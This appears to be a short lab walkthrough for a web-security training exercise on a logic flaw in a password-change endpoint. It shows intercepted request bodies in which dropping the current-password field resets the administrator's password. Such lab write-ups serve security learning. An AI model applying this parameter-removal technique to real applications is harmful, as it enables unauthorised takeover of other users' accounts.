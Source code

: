 # Weak isolation on dual-use endpoint

## This lab makes a flawed assumption about the user's privilege level based on their input. As a result, you can exploit the logic of its account management features to gain access to arbitrary users' accounts. To solve the lab, access the `administrator` account and delete Carlos.

## You can log in to your own account using the following credentials: `wiener:peter`

### step1

login using wiener:peter
now enter username administrator and password peter and new password and confirm new password again and intercept using burpsuite

```javascript
username=administrator&current-password=peter&new-password-1=peter&new-password-2=peter
```

send to repeter

```javascript
username=administrator&new-password-1=peter&new-password-2=peter
```

remeove new password and send to request respose ok
now perform in real

### step2

```javascript
username=administrator&new-password-1=peter&new-password-2=peter
```

now login using `administrator` and password `peter`
